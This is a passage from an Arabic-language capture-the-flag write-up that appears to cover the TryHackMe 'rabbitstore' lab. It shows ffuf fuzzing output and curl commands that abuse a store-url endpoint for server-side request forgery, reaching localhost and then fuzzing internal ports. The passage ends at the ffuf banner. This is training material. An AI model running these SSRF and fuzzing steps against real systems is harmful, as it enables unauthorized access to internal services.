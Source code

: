 ```bash
 :: Header           : Cookie: jwt=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJlbWFpbCI6ImFAYS5iIiwic3Vic2NyaXB0aW9uIjoiYWN0aXZlIiwiaWF0IjoxNzQ2MDE0MDA2LCJleHAiOjE3NDYwMTc2MDZ9.vlEvdMsy6_RqGWVr9KnbOZuklIg0Of5Z7Z8bHCYx9hM
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

login                   [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 617ms]
register                [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 1360ms]
docs                    [Status: 403, Size: 27, Words: 2, Lines: 1, Duration: 461ms]
uploads                 [Status: 200, Size: 34828, Words: 1, Lines: 1, Duration: 1741ms]
Login                   [Status: 405, Size: 36, Words: 4, Lines: 1, Duration: 637ms]
```
عندنا 405 يعني الميثود غلط، ماهي مثيرة. المثير هو حبيب القلب 403 مايمدينا نوصل له بشكل مباشر، خلينا نشوف إذا يمدينا باستخدام SSRF:
```bash
➜  rabbitstore curl http://storage.cloudsite.thm/api/store-url -d '{"url":"http://localhost/api/docs"}' -H 'Content-Type: application/json' -H 'Cookie: jwt=TOKEN' 

{"message":"File stored from URL successfully","path":"/api/uploads/fa1558a4-bc30-492b-9dc5-a7b075da9d68"}

➜  rabbitstore curl http://storage.cloudsite.thm/api/uploads/fa1558a4-bc30-492b-9dc5-a7b075da9d68 -H 'Cookie: jwt=TOKEN'

<!DOCTYPE HTML PUBLIC "-//IETF//DTD HTML 2.0//EN">
<html><head>
<title>404 Not Found</title>
</head><body>
<h1>Not Found</h1>
<p>The requested URL was not found on this server.</p>
<hr>
<address>Apache/2.4.52 (Ubuntu) Server at cloudsite.thm Port 80</address>
</body></html>
```
## مستندات مخفية
غريبة، المفروض يمدينا نوصل للملفات بهذه الطريقة لأن اللي قاعد يرسل الطلب هو السيرفر نفسه!. خلينا نشوف المداخل الثانية، يمكن فيه سيرفر شغال محليا مايمدينا نرسل له طلبات من خارج الشبكة:
```bash
➜  rabbitstore ffuf -u http://storage.cloudsite.thm/api/store-url -d '{"url":"http://localhost:FUZZ/api/docs"}' -H 'Content-Type: application/json' -H 'Cookie: jwt=TOKEN' -w ports -fc 500

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0
________________________________________________

 :: Method           : POST
 :: URL              : http://storage.cloudsite.thm/api/store-url
 :: Wordlist         : FUZZ: /home/vulner/thm/rabbitstore/ports
 :: Header           : Cookie: jwt=TOKEN
 :: Header           : Content-Type: application/json
 :: Data             : {"url":"http://localhost:FUZZ/api/docs"}
 :: Follow redirects : false
```